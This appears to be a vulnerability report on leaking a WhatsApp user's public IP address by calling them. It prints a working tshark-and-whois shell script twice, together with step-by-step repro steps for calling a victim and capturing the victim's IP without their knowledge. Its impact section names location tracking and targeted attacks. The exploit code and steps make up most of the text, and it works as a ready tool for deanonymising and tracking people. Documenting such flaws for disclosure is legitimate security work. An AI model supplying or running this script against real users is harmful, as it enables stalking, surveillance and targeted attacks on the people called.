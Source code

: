 # Leak the IP address of target whatsapp user


## Description/Impact

### Complete Details

Latest version of whatsapp application on all platforms is vulnerable to remote whatsapp user public IP disclosure.

It is observed that during a whatsapp (voice / video) call, application on caller side tries to establish a direct connection with the public IP address of recipient device. By filtering the Facebook and WhatsApp server IP addresses from the destination hosts, it is possible to reveal the correct public IP address of the target whatsapp user without his knowledge.

Following is a quick script to exploit this vulnerability,

--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------

### Impact


Possibility to map whatsapp users with their public IP will not just reveal whatsapp users' location information but can also be misused to track their physical movement by maintaining location history. Such direct mapping between user to IP information can also be misused to track users' surfing habits and to influence him.

Further, the public IP could be exploited to launch targeted attacks towards whatsapp user home or office.

## Repro Steps

### Setup

Users: UserA is has whatsapp detail of UserB

Environment: n/a

Browser: n/a

App version: <=latest version of whatsapp application on any platform

OS: All platforms except web

Description: UserA makes a whatsapp call to UserB and captures his public IP information without UserB's knowledge. Video PoC for better understanding of steps: 



### Steps

Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID

Step 2: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone


--------------------------

#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line
do
whois $line > /tmp/b

filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

if [ "$filter" -gt 0 ] ; then
targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"`
echo $line --- $targetinfo
fi
done


--------------------------


Step 3: Call any whatsapp user randomly to capture the server IP addresses to filter

Step 4: Call victim on his whatsapp

Step 5: Disconnect the call once established

Step 6: Script will reveal the public IP address of the target

Step 7: Validate the public IP address on target phone

